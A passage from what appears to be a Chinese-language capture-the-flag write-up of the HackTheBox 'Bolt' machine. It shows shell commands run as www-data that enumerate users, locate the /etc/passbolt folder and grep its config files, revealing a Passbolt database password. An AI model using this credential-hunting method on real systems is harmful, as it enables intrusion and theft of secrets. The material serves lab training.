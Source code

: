 检查我们有哪些用户:

```
www-data@bolt:/etc/passbolt$ ls -l /home
total 8
drwxr-x--- 15 clark clark 4096 Feb 25  2021 clark
drwxr-x--- 16 eddie eddie 4096 Aug 26 23:55 eddie
```

# 密码文件

两个用户，但无权访问他们。在尝试 LinPEAS 之前，我四处寻找任何不合适的地方，发现了这个文件夹:

```
www-data@bolt:/$ find . \! -group root -d -maxdepth 2 2>/dev/null
<SNIP>
./etc/passbolt
```

它位于/etc 中，与那里的所有其他文件夹相比非常突出，因为它属于 www-data 组，而不是 root。我快速检查了一下里面有什么有趣的东西:

```
www-data@bolt:/etc/passbolt$ grep -rn "password"     
<SNIP>
app.php:106:  'password' => env('CACHE_DEFAULT_PASSWORD', null),
app.php:127:  'password' => env('CACHE_CAKECORE_PASSWORD', null),
app.php:149:  'password' => env('CACHE_CAKEMODEL_PASSWORD', null),
app.php:232:   * The keys host, port, timeout, username, password, client and tls
app.php:242:  'password' => env('EMAIL_TRANSPORT_DEFAULT_PASSWORD', null),
app.php:330:  'password' => env('DATASOURCES_DEFAULT_PASSWORD', ''),
app.php:361:  'password' => env('DATASOURCES_TEST_PASSWORD', 'secret'),
passbolt.php:3: * Passbolt ~ Open source password manager for teams
passbolt.php:42:            'password' => '<HIDDEN>',
```

在 passbolt.php 的文件中，我们找到了另一个网站和数据库凭证:

```
'App' => [
    // A base URL to use for absolute links.
    // The url where the passbolt instance will be reachable to your end users.
    // This information is need to render images in emails for example
    'fullBaseUrl' => 'https://passbolt.bolt.htb',
],
// Database configuration.
'Datasources' => [
    'default' => [
        'host' => 'localhost',
        'port' => '3306',
        'username' => 'passbolt',
        'password' => 'rT2;jW7<eY8!dX8}pQ8%',
        'database' => 'passboltdb',
    ],
],
```
